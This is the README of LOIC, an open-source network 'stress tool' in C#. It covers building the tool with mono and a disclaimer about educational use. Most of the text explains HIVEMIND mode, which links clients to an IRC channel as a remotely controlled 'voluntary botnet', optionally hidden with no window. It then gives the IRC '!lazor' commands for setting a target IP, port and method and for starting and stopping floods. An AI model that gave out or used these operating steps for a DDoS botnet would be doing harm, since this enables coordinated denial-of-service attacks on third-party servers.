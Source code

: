 ## INFO

Low Orbit Ion Cannon - An open source network stress tool, written in C#.
Based on Praetox's LOIC project at https://sourceforge.net/projects/loic/

##INSTALL
依赖包
1，apt-get install mono-gmcs mono-mcs monodevelop liblog4netcil-dev
2，下载LOIC，unzip命令解压
3，导航到文件夹，编译:  mdtool build
4，编译好的应用程序位于/<path>bin/Debug/LOIC.exe

## DISCLAIMER

This tool is released for educational purposes only, with the intent of helping server owners develop a "Hacker Defense" attitude. This tool comes without any warranty at all.

**You may not use this software for any illegal or unethical purpose; including activities which would give rise to criminal or civil liability.**

**Under no event shall the Licensor be responsible for the activities, or any misdeeds, conducted by the Licensee.**

## HOW TO RUN ON WINDOWS

GET THE BINARIES!

Requires Microsoft .NET Framework 3.5 Service Pack 1, available at:
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HOW TO RUN ON LINUX / MACOSX

Run debug binaries with mono.
Read the wiki at https://github.com/NewEraCracker/LOIC/wiki/ for updated instructions.

## HIVEMIND/HIDDEN MODE

HIVEMIND mode will connect your client to an IRC server so it can be controlled remotely.
Think of this as a voluntary botnet (though do beware that your client can potentially be
made to do naughty things).

Note: It does NOT allow remote administration of your machine, or anything like that; it
is literally just control of loic itself.

If you want to start up in Hivemind mode, run something like this:
```
	LOIC.exe /hivemind irc.server.address
```
It will connect to irc://irc.server.adress:6667/loic

You can also specify a port and channel:
```
	LOIC.exe /hivemind irc.server.address 1234 #secret
```
It will connect to irc://irc.server.adress:1234/secret

In order to do Hivemind Hidden mode, run something like this:
```
	LOIC.exe /hidden /hivemind irc.server.address
```
It will connect to irc://irc.server.adress:6667/loic without any visible GUI.

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message like the following:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

To start an attack, type:
```
	!lazor start
```

Or just append "start" to the END of the topic:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

To reset loic's options back to its defaults:
```
	!lazor default
```

To stop an attack:
```
	!lazor stop
```

and be sure to remove "start" from the END of the topic, if it exists, too.

Take a look at source code for more details.
